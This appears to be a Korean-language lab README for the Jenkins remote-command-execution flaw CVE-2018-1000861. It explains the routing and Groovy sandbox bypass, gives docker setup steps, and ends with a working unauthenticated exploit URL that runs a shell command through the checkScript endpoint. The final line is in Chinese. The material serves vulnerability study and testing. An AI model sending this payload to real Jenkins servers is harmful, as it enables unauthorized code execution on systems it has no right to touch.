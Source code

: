 # Jenkins원격 명령 실행 취약성（CVE-2018-1000861）

Jenkins는 사용자가 URL PATH를 통해 한 번의 public 방법을 호출할 수 있도록 하는 Stapler 프레임워크를 사용하여 개발되었습니다. 이 프로세스를 제한하지 않기 때문에 공격자는 일부 민감한 Java 방법을 실행하기 위해 특수 PATH를 구성할 수 있습니다.

이 허점을 통해 우리는 이용할 수 있는 많은 이용 사슬을 찾을 수 있습니다. 가장 심각한 것은 Groovy 샌드박스를 우회하여 권한 없는 사용자가 임의 명령을 실행할 수 있게 하는 것입니다. Jenkins는 샌드박스에서 Groovy를 실행하기 전에 스크립트에 오류가 있는지 검사하고 검사 작업은 샌드박스가 없으며 공격자는 메타프로그래밍을 통해 이 단계를 검사할 때 임의 명령을 실행할 수 있습니다.




- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html


## 환경 조성
다음 명령을 실행하여 Jenkins 2.138을 시작합니다. 취약성을 포함하는 플러그인도 설치되었습니다.

```
docker compose up -d
```
![](1.png)

환경이 시작된 후 http://your-ip:8080을 방문하면 성공적으로 초기화된 Jenkins를 볼 수 있으며 더 이상 작업이 필요하지 않습니다.

![](2.png)

![](3.png)

## 빈틈이 다시 나타나기

@orangetw를 사용하여 [POC 스크립트 원터치](https://github.com/orangetw/awesome-jenkins-rce-2019)다음과 같은 요청을 보내면 성공적으로 명령을 실행할 수 있습니다.

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```



`/tmp/success`已成功创建：


